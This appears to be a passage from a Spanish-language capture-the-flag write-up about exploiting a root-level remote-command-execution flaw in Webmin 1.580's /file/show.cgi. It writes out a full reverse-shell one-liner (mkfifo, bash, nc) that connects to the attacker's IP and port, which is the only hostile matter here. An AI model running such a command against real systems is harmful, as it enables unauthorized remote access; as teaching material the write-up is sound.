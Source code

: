 
![](/assets/images/Game/image053.png)

Podemos observar documentación sobre la vulnerabilidad RCE que presenta el servicio Webmin en su versión 1.580 debido a su componente /file/show.cgi. Además, los comandos, que podemos ejecutar mediante esta vulnerabilidad, son con los privilegios del usuario root.

Ahora aprovechando esta vulnerabilidad ejecutaremos el comando `mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1500 >/tmp/f` en el sistema destino con el fin de que nos genere una reverse Shell, pero antes habilitaremos el puerto 1500 en nuestro sistema para que este escuchando la conexión entrante de la reverse Shell.

![](/assets/images/Game/image055.png)

![](/assets/images/Game/image057.png)

![](/assets/images/Game/image059.png)
